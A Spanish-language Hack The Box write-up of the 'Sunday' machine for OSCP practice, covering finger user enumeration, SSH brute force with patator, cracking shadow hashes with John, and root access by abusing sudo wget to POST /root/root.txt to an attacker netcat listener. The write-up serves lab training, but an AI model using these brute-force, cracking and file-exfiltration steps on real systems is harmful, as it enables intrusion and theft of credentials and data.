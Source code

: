 ```yaml
---
layout: post
title:  "OSCP Path ~ Sunday de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada Sunday siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, LFI, RCE, Burpsuite, PHP, RDP-file, Maquinas Retiradas, Writeup, Hacking
---
```


# Sunday ~ Hack The Box to OSCP

Realizamos el escaneo con Nmap de puertos y servicios abiertos
```bash
PORT      STATE  SERVICE VERSION
79/tcp    open   finger  Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where\x0D
| sunny    sunny                 pts/2            Sat 17:20  10.10.16.210        \x0D
|_sammy    sammy                 pts/3            Sat 18:03  10.10.16.210        \x0D
111/tcp   open   rpcbind
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
46385/tcp closed unknown
63929/tcp closed unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

Vemos que tenemos el servicio `finger` que sirve para enumerar usuarios cuando se conectan
```bash
# finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76                                                                                                                              1 ⚙
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /opt/SecLists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Thu Jul 29 11:20:02 2021 #########
access@10.10.10.76: access No Access User                     < .  .  .  . >..nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >..
admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..uucp     uucp Admin                         < .  .  .  . >..nuucp    uucp Admin                         < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..listen   Network Admin                      < .  .  .  . >..
anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
bin@10.10.10.76: bin             ???                         < .  .  .  . >..
dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..jo                    ???..ann                   ???..
la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..
miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..miof                  ???..mela                  ???..
root@10.10.10.76: root     Super-User            pts/3        <Apr 24, 2018> sunday              ..
sammy@10.10.10.76: sammy                 console      <Jul 31, 2020>..
sunny@10.10.10.76: sunny                 pts/3        <Apr 24, 2018> 10.10.14.4          ..
sys@10.10.10.76: sys             ???                         < .  .  .  . >..
zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
######## Scan completed at Thu Jul 29 11:57:39 2021 #########
15 results.

10177 queries in 2257 seconds (4.5 queries / sec)
```
Se ve mucho ruido con esta herramienta, pues por eso es importante fijarnos solo en los usuarios que tenga fecha y hora.
```bash
user: sunny, sunday
```
 Teniendo estos usuarios procedemos a probar fuerza bruta por el puerto SSH con la herramienta `patator`
 ```bash
 # patator ssh_login host=10.10.10.76 port=22022 user=FILE0 0=users.txt password=FILE1 1=passwd_ssh_brute -x ignore:fgrep='failed'
12:53:58 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-07-29 12:53 CEST
12:53:58 patator    INFO -                                                                              
12:53:58 patator    INFO - code  size    time | candidate                          |   num | mesg
12:53:58 patator    INFO - -----------------------------------------------------------------------------
12:54:13 patator    INFO - 0     19     5.936 | sunny:sunday                       |    11 | SSH-2.0-Sun_SSH_1.3
12:54:14 patator    INFO - Hits/Done/Skip/Fail/Size: 1/18/0/0/18, Avg: 1 r/s, Time: 0h 0m 15s
```
# SSH Error Algorithms - Solution
Procedemos a intentar conectarnos por ssh con las credenciales obtenidas:
```bash
# ssh sunny@10.10.10.76 -p 22022                                                                                                 
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```
Se nos lanza un error por un algoritmo de codificacion llamado `diffie-helman`.. pero lo solucionamos de la siguiente forma:
```bash
 ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
 ```
Con el parametro `-oKexALgorithms=` procedemos a especificarle el algoritmo que nos da problemas `+diffie-hellman-group1-sha1`
```bash
# ssh sunny@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1
Password: 
Last login: Thu Jul 29 16:24:15 2021 from 10.10.16.212
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```
Conseguimos conectarnos correctamente. Procedemos a enumerar un poco el sistema.

# Escalada de Privilegios a Sammy
Procdemos con los comandos tipicos para enumera el sistema:
`sudo -l`
```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```
`id`
```bash
sunny@sunday:~$ id
uid=65535(sunny) gid=1(other) groups=1(other)
```
`uname -a`
```bash
sunny@sunday:~$ uname -a
SunOS sunday 5.11 snv_111b i86pc i386 i86pc Solaris
```
Procedemos a movernos a la raiz `/` para enumerar directorios
```bash
cd /backup
cat shadow.backup
```
Sacamos los Hashes de un archivo shadow.backup de los siguientes usuarios
```bash
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Procedo a intentar Crackearlos con el uso de `John`
```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hashes      
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
"sunday "          (sunny)
"cooldude!"        (sammy)
2g 0:00:00:10 DONE (2021-07-29 13:29) 0.1978g/s 20257p/s 20662c/s 20662C/s infinitig35..bluemoon2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Probamos a usar el comando `su` para con la contraseña del usuario sammy conectarnos pero no nos funciona
Porque no probamos por ssh
```bash
# ssh sammy@10.10.10.76 -p 22022 -oKexALgorithms=+diffie-hellman-group1-sha1                                                                                                                                  1 ⨯
Password: 
Password: 
Last login: Thu Jul 29 17:26:31 2021 from 10.10.16.218
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ ls
Desktop  Documents  Downloads  Public
```
Conseguimos entrar correctamente por ssh
```bash
sammy@sunday:~$ cd Desktop/
sammy@sunday:~/Desktop$ ls
user.txt
sammy@sunday:~/Desktop$ cat user.txt 
a3d9498027ca5187ba1793xxxxxxxxxxxx
```
Sacamos la flag de `user.txt`

#Escalada de Privilegios a Root
Procedemos a enumerar al user sammy
```bash
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
Vale pues procedemos de la siguiente forma
```bash
sammy@sunday:~/Desktop$ sudo wget --post-file /root/root.txt http://10.10.16.218/80
--18:05:40--  http://10.10.16.218/80
           => `80'
Connecting to 10.10.16.218:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Y nos ponemos en escucha con una session de `nc`
```bash
# nc -vlnp 80                                                                                                                                                                                                 1 ⨯
listening on [any] 80 ...
connect to [10.10.16.218] from (UNKNOWN) [10.10.10.76] 59492
POST /80 HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.16.218
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0xxxxxxxxx
```
Ahi pillamos la flag de `/root/root.txt`
